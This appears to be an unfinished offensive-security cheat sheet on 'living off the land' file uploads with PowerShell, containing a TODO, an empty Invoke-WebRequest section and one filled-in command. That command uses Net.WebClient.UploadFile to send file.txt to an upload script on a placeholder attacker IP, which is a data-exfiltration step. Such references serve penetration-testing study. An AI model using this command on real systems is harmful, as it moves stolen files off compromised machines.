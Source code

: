 # Living off the Land

## 01 - Upload

### 1.1 - Powershell

TODO: Fill this info

#### 1.1.1 - Invoke-WebRequest

```
PS C:\> 
```

#### 1.1.2 - UploadFile

```
PS C:\> New-Object Net.WebClient.UploadFile('http[s]://<attacker_IP>/upload.php', 'file.txt')
```